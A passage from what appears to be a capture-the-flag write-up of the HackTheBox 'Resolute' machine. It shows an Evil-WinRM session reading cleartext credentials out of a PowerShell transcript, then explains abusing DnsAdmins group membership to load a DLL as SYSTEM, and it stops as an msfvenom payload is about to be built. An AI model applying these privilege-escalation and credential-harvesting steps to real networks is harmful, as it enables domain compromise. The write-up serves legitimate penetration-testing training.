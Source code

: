 One file seems to be present in the **20191203** directory.

```bash
*Evil-WinRM* PS C:\PSTranscripts\20191203> cat PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

...[snip]...

**********************
Command start time: 20191203063455
**********************
PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PS megabank\ryan@RESOLUTE Documents>
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"

...[snip]...

```

Nice, we found cleartext credentials for **ryan** in the transcript. Maybe this user has elevated privileges on the domain.

## Domain Compromise with DnsAdmins

According to BloodHound, the user **ryan** is a member of **DnsAdmins**. As stated by this [post](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise), being a member of the DnsAdmins group allows us to use the `dnscmd.exe` to specify a plugin DLL that can be loaded by the DNS service with **SYSTEM** privileges, which means we can do whatever we want!

![image-center](/images/htb/htb_resolute_bloodhound_ryan.png){: .align-center}

Let's create a simple DLL using [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) that changes the **administrator** account password.
